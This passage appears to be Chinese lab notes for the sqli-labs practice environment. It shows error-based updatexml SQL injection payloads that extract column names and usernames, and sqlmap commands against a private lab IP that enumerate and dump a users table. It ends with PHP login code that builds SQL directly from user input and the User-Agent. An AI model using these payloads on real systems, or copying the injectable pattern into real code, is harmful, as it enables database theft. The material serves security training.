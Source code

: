 ### 爆破字段名

`1',1, updatexml(1,concat(0x7e,(select (column_name) from information_schema.columns where table_name='users' limit 8,1),0x7e),1)) -- +` <a name="MrWWa"></a>

### 爆破字段

`1',1, updatexml(1,concat(0x7e,(select username from users limit 0,1),0x7e),1)) -- +` <a 

# sqlmap进行头部注入

> 在头部注入爆破中，sqlmap需要提高扫描等级 level和risk\
> level x(x为1-5)
> 2时会对头部的**cookie**进行扫描注入尝试，
> x>=3时对**user-Agent**,**ip**,**referer** 参数进行扫描
>
> risk x(x 1-3)
> 1时进行大部分扫描
> 2会增加基于事件的测试语句
> 3会增加or语句的sql注入

检测注入点

`sqlmap -u "http://192.168.31.193/Less-18/ " --data="passwd=admin&uname=admin" --batch --level 3 ` 

爆破数据库名

`sqlmap -u "http://192.168.31.193/Less-18/ " --data="passwd=admin&uname=admin" --batch --level 3 --current-db` 

爆破数据表名

`sqlmap -u "http://192.168.31.193/Less-18/ " --data="passwd=admin&uname=admin" --batch --level 3 -D "security" --tables` 

爆破字段内容

`sqlmap -u "http://192.168.31.193/Less-18/ " --data="passwd=admin&uname=admin" --batch --level 3 -D "security" -T "users" --dump`

# Pass19

```bash
$sql="SELECT  users.username, users.password FROM users WHERE users.username=$uname and users.password=$passwd ORDER BY users.id DESC LIMIT 0,1";
	$result1 = mysql_query($sql);
	$row1 = mysql_fetch_array($result1);
		if($row1)
			{
			echo '<font color= "#FFFF00" font size = 3 >';
			$insert="INSERT INTO `security`.`referers` (`referer`, `ip_address`) VALUES ('$uagent', '$IP')";
```
